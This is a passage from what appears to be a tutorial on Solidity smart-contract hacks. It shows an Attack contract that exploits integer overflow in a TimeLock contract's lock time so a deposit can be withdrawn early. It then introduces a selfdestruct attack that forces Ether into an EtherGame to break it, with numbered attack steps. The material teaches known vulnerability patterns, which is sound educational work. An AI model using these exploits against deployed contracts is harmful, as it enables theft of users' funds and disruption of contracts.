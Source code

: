 ```
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```


# 3. Self Destruct

Code: https://solidity-by-example.org/hacks/self-destruct/

**Contracts can be deleted from the blockchain by calling ```selfdestruct``` .** \
**```selfdestruct``` sends all remaining Ether stored in the contract to a designated address.**

A malicious contract can use ```selfdestruct``` to force sending Ether to any contract. \
The goal of this game is to be the 7th player to deposit 1 Ether. \
Players can deposit only 1 Ether at a time. \
Winner will be able to withdraw all Ether.

1. Deploy EtherGame
2. Players (say Alice and Bob) decides to play, deposits 1 Ether each.
2. Deploy Attack with address of EtherGame
3. Call Attack.attack sending 5 ether. This will break the game
   No one can become the winner.
